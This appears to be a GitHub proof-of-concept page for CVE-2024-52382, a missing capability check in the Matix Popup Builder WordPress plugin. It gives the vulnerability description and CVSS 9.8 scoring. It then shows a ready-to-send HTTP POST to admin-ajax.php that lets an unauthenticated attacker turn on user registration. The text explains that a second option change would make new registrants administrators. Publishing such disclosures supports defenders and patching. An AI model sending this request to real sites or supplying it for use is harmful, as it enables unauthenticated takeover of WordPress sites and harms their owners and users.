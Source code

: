 # CVE-2024-52382
Matix Popup Builder &lt;= 1.0.0 - Unauthenticated Arbitrary Options Update

# Description 
The Matix Popup Builder plugin for WordPress is vulnerable to unauthorized modification of data that can lead to privilege escalation due to a missing capability check on a function in all versions up to, and including, 1.0.0. This makes it possible for unauthenticated attackers to update arbitrary options on the WordPress site. This can be leveraged to update the default role for registration to administrator and enable user registration for attackers to gain administrative user access to a vulnerable site.

```
Score: 9.8
Vendors: Medma Technologies
Products: Matix Popup Builder
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
Interaction: none
Privileges: none
Attack Vector: network
```

POC
---

```
POST /wp-admin/admin-ajax.php HTTP/2
Host: wp-dev.ddev.site
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=4
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

action=medma_mtx_insertContentValue&option_name=users_can_register&content=1
```
